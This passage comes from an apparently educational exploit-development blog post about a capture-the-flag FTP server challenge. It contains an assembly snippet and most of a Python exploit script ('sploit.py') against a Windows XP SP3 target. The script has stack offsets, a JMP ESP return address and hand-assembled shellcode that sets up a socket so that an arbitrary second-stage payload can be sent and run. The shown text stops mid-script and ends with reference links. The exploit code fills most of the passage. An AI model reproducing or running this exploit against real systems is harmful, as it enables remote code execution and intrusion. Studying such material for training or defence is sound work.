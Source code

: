 {% codeblock ASM listing %}
MOV BL, 0x24          ; Point EBX at `accept`
PUSH EDI              ; Pass in the socket
CALL EBX              ; Invoke accept
{% endcodeblock %}

Now this is where it starts to get interesting, because this call is a blocking call. As a result, we need to have our attacker script connect to the bind port for the script to continue. We'll make another call to the server on the next port (22) and for this we'll be sending the payload that we want executed on the server. For now, this payload will be a dummy payload, but in future it will be any payload we want. This is what the exploit looks like now:

{% codeblock sploit.py version 7 lang:python %}
#!/usr/bin/python

import socket, struct, time

host = '10.1.10.34'
port = 21

def read_file(path):
  with open(path, 'r') as f:
    return f.read()

def pwn(payload, port, recv = True):
  print "[*] Sending {0} bytes to {1}:{2}...".format(len(payload), host, port)
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((host, port))
  if recv:
    s.recv(2048)
  s.send(payload)
  s.shutdown
  s.close

max_size = 365

offsets = {
  'SC': 266,
  'EIP': 294,
  'ESP': 302,
}

# the start of our collection of supported platforms
targets = [
  { 'Name': 'Windows XP SP3', 'JMPESP': 0x7e4456f7 }
]

# Hard coded target for now
target = targets[0]

print "[*] Attacking {0}:{1} ...".format(host, port)

block1  = ""
# Adjust the stack to prevent it from breaking things in our shellcode
block1 += "\x83\xEC\x7C"                       # SUB ESP, 0x7C
# Get the address of `socket` into EBX
block1 += "\xBB\x44\x34\x34\x40"               # MOV EBX,<offsetted address>
block1 += "\xC1\xEB\x08"                       # SHR EBX, 0x8
# set up the stack for the call to `socket`
block1 += "\xB0\x06"                           # MOV AL, 0x6

  [OSCE]: http://buffered.io/posts/osce-and-me/
  [ExploitDB]: http://exploit-db.com/
  [Corelan]: https://www.corelan.be/
  [Fuzzy Security]: http://www.fuzzysecurity.com/
  [CTF]: https://en.wikipedia.org/wiki/Capture_the_flag
  [ShellStorm]: http://www.shell-storm.org/
  [Ammar]: http://clog.ammar.web.id/2013/06/idsecconf-2013-ctff-offline-challenge.html
  [idsecconf]: http://2013.idsecconf.org/
  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Immunity Debugger]: https://www.immunityinc.com/products-immdbg.shtml
  [Mona.py]: http://redmine.corelan.be/projects/mona
  [Corelanc0d3r]: https://twitter.com/corelanc0d3r
  [muts]: https://twitter.com/kalilinux